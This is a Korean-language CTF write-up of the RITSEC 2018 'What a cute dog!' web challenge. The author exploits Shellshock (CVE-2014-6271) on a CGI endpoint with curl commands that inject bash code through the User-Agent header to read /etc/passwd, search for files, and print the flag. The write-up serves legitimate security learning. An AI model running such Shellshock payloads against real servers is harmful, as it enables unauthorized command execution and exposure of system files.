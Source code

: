 ```yaml
---
title: "[RITSEC 2018] What a cute dog! Write up"
date: 2018-11-19
draft: false
category: [ctf]
subcategories: [2018]
tags: [Write-up, CTF, RITSEC2018]
---
```


주말에 잠깐 짬이 나서 RITSEC CTF에 참여했다.
웹 몇개랑 암호 한개 정도 풀었는데 그 중에 한 문제에 대한 Write Up을 써 두려고 한다.  

<!--more-->

문제 정보는 다음과 같다.  

```plain
This dog is shockingly cute!

fun.ritsec.club:8008

Author: sandw1ch
```

문제에 접속하면 아래와 같은 화면이 보인다.  

![](/images/CTF/RITSEC2018/whatacutedog/whatacutedog_01.png)

아무것도 없어 보이는데, 페이지 소스보기를 하면 iframe으로 `/cgi-bin/stats`를 호출하는 것을 알 수 있다.  

```html

<html>

	<head>

    <style>
    body {
        background-image: url("https://wallpaper-house.com/data/out/6/wallpaper2you_129872.jpg");
    }
    </style>

	<meta name="generator" content="vi2html">
	</head>
	<body>
	</br>
</br>
Has Anyone Really Been Far Even as Decided to Use Even Go Want to do Look More Like?</br>
</br>
Wow, this dog is shockingly cute!</br>
	</br>
Stats:
	</br>
	<iframe frameborder=0 width=800 height=600 src="/cgi-bin/stats"></iframe>
	</body>
</html>
```

해당 경로로 들어가면 아까 봤던 두 줄의 정보만 출력될 뿐, 아무것도 나오는 것이 없다.  

```plain
Sun Nov 18 14:11:01 UTC 2018
14:11:01 up 1 day, 21:58, 0 users, load average: 0.11, 0.31, 0.29
```

뭘까 잠시 고민하다가, 아무 의미 없는 페이지에 뜬금포로 `/cgi-bin/stats`로 들어 가 어떤 정보를 출력하는게 의심스러워서, 이를 가지고 문제를 푸는 것이 아닌가 생각 해 보았다.
그래서 구글에 `cgi-bin/stats exploit`라고 검색 해 보았는데 깃허브에서 이와 관련 된 `CVE`를 찾을 수 있었다.  

> [CVE-2014-6271](https://github.com/hmlio/vaas-cve-2014-6271)

해당 취약점을 가지고 있는 Debian Linux system에서 `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats`와 같은 코드를 사용 해 임의의 코드를 실행할 수 있다.
이에 위의 코드를 그대로 문제 서버에 적용 해 보았다.
그랬더니 아래와 같이 `/etc/passwd`가 출력 된 것을 확인할 수 있었다.  

```sh
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://fun.ritsec.club:8008/cgi-bin/stats

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

그래서 이를 가지고 플래그의 위치를 찾기 위해 `find` 명령어를 실행하도록 아래와 같이 테스트 해 보았다.  

```sh
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name "*flag*"'" http://fun.ritsec.club:8008//cgi-bin/stats

/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/kpageflags
/usr/lib/perl/5.14.2/auto/POSIX/SigAction/flags.al
/usr/lib/perl/5.14.2/bits/waitflags.ph
/opt/flag.txt
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

그랬더니 `/opt/flag.txt`라는 파일을 찾을 수 있었다.
그래서 이번에는 `/opt/flag.txt`를 읽도록 아래와 같이 실행 해 보았더니 플래그를 찾을 수 있었다.  

```sh
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt'" http://fun.ritsec.club:8008//cgi-bin/stats

RITSEC{sh3ll_sh0cked_w0wz3rs}
```

```plain
RITSEC{sh3ll_sh0cked_w0wz3rs}
```
